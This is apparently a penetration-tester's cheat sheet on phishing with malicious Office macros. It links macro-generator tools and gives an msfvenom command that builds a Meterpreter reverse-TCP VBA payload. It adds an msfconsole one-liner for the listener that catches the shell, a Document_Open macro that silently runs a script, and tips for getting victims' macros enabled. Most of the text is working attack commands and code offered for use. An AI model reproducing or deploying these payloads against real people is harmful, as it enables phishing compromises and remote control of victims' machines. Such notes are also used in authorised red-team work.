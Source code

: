 # Email Phishing with Macros

## Macro Creation Tools

Powershell script to create an Excel file with malicious macro:
- https://gist.github.com/luca-m/6ee176881a1d93bcddb3

Malicious Macro generator utility (will create VBA files):
- https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator


## Manually
Create a VBA payload:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP/HOST> LPORT=<PORT> -f vba`

Paste into the macro module, save and ensure that the file gets accepted. Then, on the attacker machine:
`msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <IP/HOST>;set lport <PORT>;run"`


## VBA Examples

Very simple macro:
```
Private Sub Document_Open()
  MsgBox "Data is revealed.", vbOKOnly, "Data is revealed."
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```


https://medium.com/@mavrogiannispan/phishing-2-0-9f49654de4a6

## THINGS TO ENSURE:
- excel account settings -> trust & security center -> enable macros
- file explorer -> properties -> unblock file
- also macros can now only be triggered in the licensed version of office, active content is not enabled on the free version
  
